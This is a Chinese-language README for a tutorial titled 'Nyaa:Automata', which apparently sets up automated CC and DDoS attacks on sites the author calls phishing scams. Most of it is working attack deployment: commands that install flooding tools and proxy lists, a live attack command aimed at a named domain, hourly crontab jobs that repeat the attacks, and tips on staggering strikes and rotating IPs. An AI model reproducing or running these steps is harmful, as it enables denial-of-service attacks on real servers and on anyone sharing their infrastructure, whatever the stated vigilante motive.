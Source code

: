 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)
- [x] [**NyaaCaster/HydaelynAttack**](https://github.com/NyaaCaster/HydaelynAttack)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
wget https://nyaacaster.github.io/Nyaa-Automata/requirements.txt
python3 -m pip install --upgrade pip
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4和proxy喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/proxy.txt" > proxy.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
wget https://nyaacaster.github.io/Nyaa-Automata/overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整

## 安装HydaelynAttack（ddos工具，流量开销大，每轮攻击12M，计费流量的自己规划好开销）
```shell
git clone https://github.com/NyaaCaster/HydaelynAttack.git
```

## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/proxy.txt -v 5 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行overload
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以

## 如果要单独性执行HydaelynAttack
```shell
python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
```
- HydaelynAttack项目有多个脚本可选，具体看该项目说明


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/proxy.txt -v 5 -s 30
15 * * * * python3 ~/HydaelynAttack/HydaelynAttack_p_once.py
30 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0 15 30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
